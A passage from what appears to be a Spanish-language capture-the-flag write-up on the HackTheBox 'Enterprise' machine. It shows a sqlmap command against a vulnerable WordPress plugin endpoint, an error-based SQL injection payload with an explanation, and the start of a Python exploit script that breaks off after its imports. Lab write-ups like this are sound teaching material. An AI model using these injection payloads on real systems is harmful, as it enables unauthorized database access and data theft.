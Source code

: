 Pero nada, siempre obteníamos una respuesta en blanco :(

Tuve que decantarme por ver como hacia **sqlmap** las peticiones y desde ahí usar la sentencia para jugar, al ejecutar la instrucción (de abajo) podemos ver la siguiente sentencia SQL que hace para extraer nombres de tablas:

```bash
❭ sqlmap -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 -D wordpress --tables -v6
```

* Le indicamos la URL vulnerable,
* que tome la base de datos llamada **WordPress**,
* nos dumpee las tablas y
* que el verbose sea máximo, asi tenemos claridad de los payloads y cositas que usa.

Encontramos esta sentencia:

(Le cambio algunas cositas para que sea más intuitiva)

```sql
(
   SELECT 8350 FROM(
       SELECT COUNT(*),CONCAT(
           0x41,(
               SELECT MID(
                   (
                       IFNULL(
                           CAST(
                               table_name AS NCHAR
                           ),0x20
                       )
                   ),1,50
               ) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x4242) LIMIT 0,1
           ),0x43,FLOOR(RAND(0)*2)
       )x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x
   )z
)
```

Hace un substring ([MID](https://www.w3resource.com/mysql/string-functions/mysql-mid-function.php)) del nombre de la tabla (50 posiciones por si algo) encontrada ([IN](https://www.mysqltutorial.org/sql-in.aspx)) en la base de datos **BB** (`0x4242` en hexadecimal), esa tabla la concatena ([CONCAT](https://www.w3schools.com/mysql/func_mysql_concat.asp)) con 3 valores más: **A** (`0x41` hex), **C** (`0x41` hex) y un número random ([RAND](https://database.guide/mysql-rand-function-generate-a-random-number-in-mysql/)) jugando con el entero más grande ([FLOOR](https://www.w3resource.com/mysql/mathematical-functions/mysql-floor-function.php)). El resultado (la tabla, por ejemplo: **Aclaroquesi_tableC**) viene concatenada en varios valores, esto para generar algunos errores y agruparlos (:

Es medio rara de entender, pero cada vez que la lees se vuelve más fácil. Listo, pues apoyémonos de esta sentencia para extraer las tablas de las bases de datos anteriores:

#### SQL injection - Tablas

```py
#!/usr/bin/python3

import requests
import string
import signal
import time
import sys
import re
from pwn import *

# Ctrl + C
def def_handler(sig, frame):
    print("\nInterrupción, saliendo...\n")
    exit(1)
```
